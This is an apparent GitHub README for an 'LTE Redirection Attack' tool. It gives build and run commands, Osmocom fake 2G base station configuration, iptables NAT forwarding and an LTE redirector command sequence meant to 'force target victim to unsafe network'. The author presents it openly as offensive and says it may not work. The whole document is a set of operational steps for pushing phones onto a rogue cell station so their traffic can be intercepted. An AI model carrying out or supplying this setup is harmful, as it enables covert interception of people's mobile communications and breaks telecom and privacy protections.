 # USELESS UNTIL NEW DEVELOPMENTS SEE AT SOFTWARE-DEFINED-RADIO.COM


[SOFTWARE-DEFINED-RADIO.COM](https://software-defined-radio.com)






[build](https://youtu.be/0aruLybY__w)

# LTE-Redirection_Attack

To be more transparent I don't even know if it is still working, I am alone in this project and testing is sometime right or othertimes wrong.
I share it for loving free information but be kind with the dev :) i am not really the "best" at all.
like i say on my github abstract it is what it intent to do not what it do.
pull requests and issues (if they help to make things going further are really welcome)
Have a nice hacking day ;)

Force target victim to unsafe network


Tested on ubuntu 22.04

## Build
```bash
sudo ./build.sh
```


## Run

```bash
sudo ./run.sh
```

2G EGPRS Fake base Station :

Change if not in osmocom terminal osmo-bsc.cfg remote ip 192.168.1.23 by your internet interface : remote ip 192.168.X.X
Change in osmo-sgsn.cfg bind udp local, listen 192.168.1.23 by yours


In Osmocom Popped Terminal (change MCC//MNC accordingly in osmo-bsc.cfg osmo-bsc.cfg)

```bash
./tun.sh
./osmo-all.sh start
osmo-trx-uhd
```

Forward your ip in host terminal:
```bash
bash reset_iptables.sh
./srsepc_if_masq.sh your_interface
######?????  iptables -A POSTROUTING -t nat -s 176.16.32.0/20 ! -d 176.32.16.0/20 -j MASQUERADE
```


LTE Node redirector

```bash
write mcc (replace)
write mnc (relace)
wirte tracking_area_code (replace)
write mcc (replace)
write mnc (replace)
write band (replace)
write dl_earfcn (replace)
write tx_gain 80
write rx_gain 30
start
``` 

